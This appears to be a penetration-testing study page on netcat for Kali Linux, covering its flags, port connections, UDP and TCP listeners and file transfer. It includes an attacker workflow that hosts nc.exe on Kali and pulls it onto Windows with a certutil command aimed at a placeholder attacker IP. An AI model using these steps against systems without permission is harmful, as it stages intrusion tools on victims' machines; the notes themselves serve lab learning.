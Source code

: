 # Netcat

### Using Netcat on Kali Linux

* <mark style="color:yellow;">nc --help</mark>
* <mark style="color:yellow;">man nc</mark>
* <mark style="color:yellow;">-u</mark>: Connect to UDP or set up a UDP listener
* <mark style="color:yellow;">-l</mark>: Set up listener
* <mark style="color:yellow;">-n</mark>: Do not resolve hostname via DNS
* <mark style="color:yellow;">-e</mark>: Allows you to execute a specific command
* <mark style="color:yellow;">-v</mark>: verbose

#### &#x20;Connect to ports&#x20;

* <mark style="color:yellow;">nc targetIP targetPORT</mark>
  * Doesn't give any output because verbose if off
* <mark style="color:yellow;">nc -nv targetIP targetPORT</mark>

#### Connect to UDP port

* <mark style="color:yellow;">nc -nvu targetIP targetPORT</mark>

#### Open UDP listener

* <mark style="color:yellow;">nc -nvlup 1234</mark>

#### Setup a listener (Server mode)

To achieve this, since Windows doesn't come with netcat installed...we will setup a web server hosting our netcat executable that comes with Kali at:

* <mark style="color:yellow;">/usr/share/windows-binaries</mark>

#### Opening the web server on the kali

* <mark style="color:yellow;">python -m SimpleHTTPServer 80</mark>

#### Downloading on Windows through the command prompt

* <mark style="color:yellow;">certutil -urlcache -f http://attackerIP/nc.exe nc.exe</mark>

#### Setting up the listener on the Kali

* <mark style="color:yellow;">nc -nvlp 1234</mark>

#### Connecting from the Windows to the listener on the Kali

* <mark style="color:yellow;">nc.exe .nv kaliIP 1234</mark>

You can send messages from one machine to the other now.

### Transfer files with netcat

You need a listener that is going to receive the file.

We are going to transfer a file from the kali to the Windows

#### Set up the listener port on Windows

* <mark style="color:yellow;">nc.exe -nvlp 1234 >  test.txt</mark>
  * Everything that comes will be saved&#x20;
